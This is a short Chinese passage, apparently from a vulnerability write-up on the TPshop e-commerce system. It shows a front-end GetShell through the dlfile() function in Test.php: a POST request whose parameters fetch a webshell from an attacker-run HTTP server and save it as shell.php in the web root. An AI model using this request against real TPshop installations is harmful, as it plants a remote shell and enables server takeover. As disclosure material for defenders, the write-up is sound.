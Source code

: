 ![TPshop_4.png](/assets/images/2017-12-06/4019875216.png)

## fwrite 前台GetShell

**Path：**/application/home/controller/Test.php

**Func：**dlfile()

**Demo：**

向 `http://192.168.215.136/Home/Test/dlfile` 方法POST数据：`file_url=http://10.232.57.136:8080/shell.txt&save_to=C:\www\WWW\shell.php`

![TPshop_5.png](/assets/images/2017-12-06/1918804747.png)

1、本地起个http服务，讲一句话写入任意文件：`http://10.232.57.136:8080/shell.txt`

![TPshop_6.png](/assets/images/2017-12-06/1680701064.png)
